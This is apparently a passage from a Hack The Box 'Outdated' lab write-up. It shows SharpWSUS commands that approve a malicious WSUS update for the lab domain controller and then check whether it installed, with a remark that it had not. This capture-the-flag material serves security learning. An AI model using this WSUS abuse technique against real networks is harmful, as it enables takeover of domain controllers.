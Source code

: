 ```bash
.\SharpWSUS.exe approve /updateid:089b7bcb-17ec-4975-859b-fdbb0683a57d /computername:dc.outdated.htb /groupname:"Great Update"
```

![image.png](/assets/Images/HTB_Outdated/image%2027.png)

Checks whether the approved malicious update was successfully applied on the target DC  

```bash
.\SharpWSUS.exe check /updateid:089b7bcb-17ec-4975-859b-fdbb0683a57d /computername:dc.outdated.htb
```

![image.png](/assets/Images/HTB_Outdated/image%2028.png)

Update is not installed after wating some time 
